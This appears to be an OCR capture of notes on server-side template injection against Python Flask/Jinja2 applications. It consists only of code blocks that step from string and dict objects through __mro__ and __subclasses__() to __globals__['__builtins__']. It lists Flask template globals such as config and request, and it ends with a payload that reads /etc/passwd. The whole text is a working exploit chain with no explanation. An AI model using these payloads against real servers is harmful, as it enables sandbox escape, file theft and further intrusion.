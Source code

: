 ```
''.__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]

```

> 



```
config
request
url_for
get_flashed_messages
self
redirect

```

> 



```
object.__subclasses__()

```

> 



```
''.__class__.__mro__[2].__subclasses__()[99].__init__
&lt;slot wrapper '__init__' of 'object' objects&gt;

''.__class__.__mro__[2].__subclasses__()[59].__init__
&lt;unbound method WarningMessage.__init__&gt;

```

> 



```
''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']

```

> 



```
''.__class__.__mro__[-1].__subclasses__()[138].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()

```
